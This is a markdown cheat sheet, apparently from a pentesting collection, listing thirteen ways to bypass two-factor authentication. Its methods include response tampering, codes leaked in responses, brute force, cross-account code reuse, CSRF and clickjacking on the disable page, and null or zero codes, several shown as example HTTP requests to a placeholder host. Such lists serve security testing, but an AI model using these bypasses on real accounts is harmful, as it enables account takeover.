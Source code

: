 # Bypass Two-Factor Authentication

1. Response manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 404 Not Found
...
{"code": true}
```

2. Status code manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 200 OK
...
{"code": false}
```

3. 2FA Code in Response

Always check the response!
```
POST /req-2fa/
Host: vuln.com
...
email=victim@gmail.com
```
The response is
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```

4. JS Files may contain info about the 2FA Code (Rare case)
   
5. Bruteforce the 2FA code
   
6. Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
   
7. No CSRF protection on disabling 2FA, also there is no auth confirmation.

8. 2FA gets disabled on password change/email change. 

9. Clickjacking on 2FA disabling page, by iframing the 2FA Disabling page and lure the victim to disable the 2FA. 
    
10. Enabling 2FA doesn't expire previously active sessions, if the session is already hijacked and there is a session timeout vuln.

11. 2FA code reusability, same code can be reused.

12. Enter code 000000
```
POST /2fa/
Host: vuln.com
...
code=00000
```

13. Enter code "null"
```
POST /2fa/
Host: vuln.com
...
code=null
```

## References
* [Harsh Bothra](https://twitter.com/harshbothra_)
* Other writeup
